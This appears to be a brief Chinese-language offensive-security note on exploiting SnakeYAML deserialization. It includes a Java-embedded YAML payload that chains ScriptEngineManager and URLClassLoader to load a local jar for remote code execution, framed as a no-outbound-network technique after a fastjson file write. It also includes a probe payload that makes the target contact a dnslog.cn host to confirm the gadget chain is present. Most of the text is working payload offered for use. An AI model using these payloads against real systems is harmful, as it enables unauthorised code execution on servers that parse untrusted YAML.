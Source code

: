 # snakeyaml

## 不出网利用
>通过fastjson写文件如何本地加载rce


https://xz.aliyun.com/t/10655

加载本地
```java
String data2 = "!!javax.script.ScriptEngineManager [\n" +
                "  !!java.net.URLClassLoader [[\n" +
                "    !!java.net.URL [\"file:E:/yaml-payload.jar\"]\n" +
                "  ]]\n" +
                "]";
```

## 判断存在链

```java

poc = "key: [!!java.lang.String []: 0, !!java.net.URL [null, \"http://5ydl3f.dnslog.cn​\"]: 1]";

```
